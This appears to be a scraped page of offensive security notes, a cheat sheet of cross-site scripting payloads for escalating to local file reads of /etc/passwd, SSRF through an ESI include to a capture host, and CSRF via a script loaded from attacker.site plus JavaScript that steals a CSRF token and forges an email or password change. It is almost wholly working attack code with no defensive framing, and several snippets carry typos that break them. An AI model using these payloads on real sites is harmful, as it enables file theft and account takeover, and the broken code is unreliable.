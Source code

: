     - XSS to LFI
        
        ```jsx
        <script%00>
         x=new XMLHttpRequest;
         x.onload=function(){document.write(this.responseText)};
         x.open("GET","file:///etc/passwd");x.send();
         </script%00>
        
        <script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>
        
        <img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
        <script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
        ```
        
    - XSS to SSRF
        
        ```python
        <esi:include src="<http://yoursite.com/capture>" />
        ```
        
    - XSS to CSRF
        
        - XSS to CSRF [ [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb) ]
            
            POC : `[<https://vulnerable.site/profile.php?msg=><](<https://vulnerable.site/profile.php?msg=><script src=’https://attacker.site/attacker/script.js’></script>`
            
            ```jsx
            var csrfProtectedPage ='<https://vulnerable.site/profile.php>'
            var csrfProtectedForm ='form'
            //get valid token for current request
            var html = get(csrfProtectedPage);
            	document.getElementbyId(csrfProtectedForm);
            var token = form.token.value;
            
            //Build with valid token
            document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';
            
            // Auto submit form
            document.forms["myfor"].submit();
            function get(url){
            var xmlHttp = new XMLHttpRequest();
            xamlHttp.open("GET", url.false);
            xmlHttp.send(null)
            return xmlHttp.responseText;
            }
            ```
            
        
        ```python
        <script>
        var req = new XMLHttpRequest();
        req.onload = handleResponse;
        req.open('get','/my-account',true);
        req.send();
        function handleResponse() {
            var token = this.responseText.match(/name="csrf" value="(\\w+)"/)[1];
            var changeReq = new XMLHttpRequest();
            changeReq.open('post', '/my-account/change-email', true);
            changeReq.send('csrf='+token+'&email=test@test.com')
        };
        </script>
        ```
        